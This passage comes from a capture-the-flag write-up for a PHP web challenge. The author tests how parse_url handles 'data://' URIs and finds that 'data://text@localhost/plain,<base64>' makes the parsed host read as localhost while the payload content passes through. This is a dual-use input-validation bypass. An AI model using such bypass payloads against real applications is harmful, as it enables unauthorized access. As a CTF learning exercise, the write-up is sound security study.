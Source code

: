 Hmm... Can we trick the parsed URL's host to be `localhost` via the `@` symbol? Like this:

```php
$url = "data:text@localhost/plain,$base64EncodedPayload";
```

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|14:54:05(HKT)]
└> php test.php
[*] Payload: foobar
[*] URL: data:text@localhost/plain,Zm9vYmFy
[*] Parsed URL:
array(2) {
  ["scheme"]=>
  string(4) "data"
  ["path"]=>
  string(29) "text@localhost/plain,Zm9vYmFy"
}
[*] Final content: foobar
```

Uhh... No?? Oh wait, the `data` URI scheme didn't start with a double slash (`//`).

> [...]**The scheme specific data start with a double slash "//"** to indicate that it complies with the common Internet scheme syntax. - [RFC 1738 section 3.1](https://datatracker.ietf.org/doc/html/rfc1738#section-3.1)

Hmm... Does the `data` URI scheme supports that? In its RFC, it doesn't mention that. However, if we look at [this note in PHP documentation about `data` URI scheme wrapper](https://www.php.net/manual/en/wrappers.data.php#85581), PHP actually supports the `data` URI scheme to start with a double slash:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240805145923.png)

Let's test it!

```php
$url = "data://text@localhost/plain,$base64EncodedPayload";
```

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|14:54:21(HKT)]
└> php test.php
[*] Payload: foobar
[*] URL: data://text@localhost/plain,Zm9vYmFy
[*] Parsed URL:
array(4) {
  ["scheme"]=>
  string(4) "data"
  ["host"]=>
  string(9) "localhost"
  ["user"]=>
  string(4) "text"
  ["path"]=>
  string(15) "/plain,Zm9vYmFy"
}
[*] Final content: foobar
```
